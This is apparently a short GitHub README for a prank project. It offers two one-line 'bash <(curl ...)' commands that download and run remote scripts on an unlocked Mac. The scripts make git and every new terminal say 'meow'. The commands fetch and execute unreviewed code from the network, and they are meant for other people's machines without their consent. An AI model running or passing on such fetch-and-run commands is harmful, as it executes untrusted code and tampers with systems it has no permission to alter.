 # DFTLYC
Don't Forget To Lock Your Computer!

Drop a shell payload via command line. That's what happens when you forget to lock your computer! Only verified to work on OSX.

##gitmeow
git with say meow first.

```bash <(curl -s https://raw.githubusercontent.com/elwaxoro/DFTLYC/master/gitmeow.sh)```

##newshell
each terminal that starts gets meow from every available voice

```bash <(curl -s https://raw.githubusercontent.com/elwaxoro/DFTLYC/master/newshell.sh)```

